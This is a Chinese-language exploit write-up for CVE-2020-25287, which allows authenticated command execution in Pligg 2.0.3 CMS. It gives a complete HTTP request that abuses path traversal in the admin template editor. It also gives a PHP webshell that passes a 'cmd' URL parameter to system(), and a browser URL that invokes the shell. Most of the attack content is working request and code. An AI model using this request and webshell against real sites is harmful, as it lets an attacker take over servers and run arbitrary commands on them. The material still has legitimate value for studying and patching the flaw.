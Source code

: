 # CVE-2020-25287：Pligg 2.0.3允许远程身份验证的用户执行任意命令

## Pligg

Pligg

https://www.pligg.com/



软件类别： CMS 开发语言： PHP 运行平台： PHP+MySQL 授权协议： 开源软件

## POC

https://github.com/jenaye/pligg



说明 ： 我们可以通过模板编辑器菜单使用参数访问任何文件，因为cms没有对扩展进行检查，然后将 Webshell 创建到现有的 php 文件中作为示例 the\_file 受影响的版本 ： 2.0.3

### 利用

![image-20200916160348852](../../.gitbook/assets/image-20200916160348852.png)

转到bp截获请求，并更改文件路径。/admin/admin\_editor.php

范例：xxx.php \(此例子为index.php\)

![image-20200916160604770](../../.gitbook/assets/image-20200916160604770.png)

```bash
POST /admin/admin_editor.php HTTP/1.1
Host: kliqqi
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://kliqqi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://kliqqi/admin/admin_editor.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
Connection: close

the_file=..%2Fxxx.php&open=Open
```

然后发包，这时浏览器会响应并显示以下，修改xxx.php的内容为cmd shell

```php
<?php
  if($_GET['cmd']){
    system($_GET['cmd']);
}
/>
```

![image-20200916161313819](../../.gitbook/assets/image-20200916161313819.png)

最后在浏览器浏览webshell

`xxx.com/xxx.php?cmd=dir`

![image-20200916161421298](../../.gitbook/assets/image-20200916161421298.png)

